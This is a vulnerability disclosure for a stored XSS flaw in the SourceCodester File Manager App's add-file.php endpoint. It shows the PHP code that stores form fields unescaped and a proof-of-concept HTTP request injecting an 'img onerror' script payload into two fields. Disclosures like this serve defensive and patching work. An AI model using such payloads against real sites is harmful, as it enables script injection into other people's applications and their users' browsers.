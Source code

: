 # SOURCECODESTER / File Manager App - Stored XSS add-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/16919/file-manager-app-using-php-source-code.html

## Affected Component
> /endpoint/add-file.php

## Code
```php
        $fileTitle = $_POST["fileTitle"];
        $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";


 $sql = "INSERT INTO tbl_file (file_title, file, file_uploader, date_uploaded) VALUES (:fileTitle, :uploadedFileName, :fileUploader, :dateUploaded)";
                $stmt = $conn->prepare($sql);
                $stmt->bindParam(':fileTitle', $fileTitle);
                $stmt->bindParam(':uploadedFileName', $uploadedFileName);
                $stmt->bindParam(':fileUploader', $fileUploader);
                $stmt->bindParam(':dateUploaded', $dateUploaded);
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/add-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Length: 461


------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileTitle"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="file"; filename="csv.csv"
Content-Type: text/txt

NochizPlz
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q
Content-Disposition: form-data; name="fileUploader"

<img src=x onerror=alert('NoChizPlz')>
------WebKitFormBoundaryuV4b4E6bYtWMxE9Q--

```

## Screenshot
![img.png](STORED%20XSS%20add-file%2Fimg.png)

